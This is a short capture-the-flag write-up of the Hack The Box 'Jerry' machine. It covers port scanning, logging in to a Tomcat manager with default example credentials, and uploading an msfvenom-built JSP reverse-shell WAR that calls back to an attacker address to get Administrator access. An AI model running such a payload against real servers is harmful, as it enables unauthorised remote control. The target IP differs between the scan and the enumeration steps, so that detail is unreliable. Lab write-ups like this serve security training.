

# Jerry Writeup - by Thammanant Thamtaranon  
- Jerry is an easy Windows machine hosted on Hack The Box.

## Reconnaissance  
- I started with a full TCP port scan including service/version detection and OS fingerprinting:  
  `nmap -A -T4 -p- 10.10.10.40`  
  
- The scan showed one open port:  
  - 8080 (HTTP)

## Scanning & Enumeration  
- I ran a directory brute-force using `dirsearch`:  
  `dirsearch -u 10.10.10.95:8080`  
  
- The `/manager` path was interesting since it returned a `401 Unauthorized` code.  
- Navigating to `/manager` required authentication.  
  
- We tried leaving the username and password blank, but the 401 Unauthorized page provided an example credential, which we then used successfully.  
  
- We successfully logged in.  


## Exploitation  
- On the manager page, we could upload `.war` files. We used `msfvenom` to create a Java JSP reverse shell payload:
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.16.8 LPORT=4444 -f war > reverse.war
```
- We deployed the `.war` file and navigated to `/reverse`, which gave us a reverse shell.  
  
- We were already in the Administrator group.  
- Navigating to the Administrator's Desktop, we found a folder named `flags`. Inside, the file `88 2 for the price of 1.txt` contained both the user and root flags.
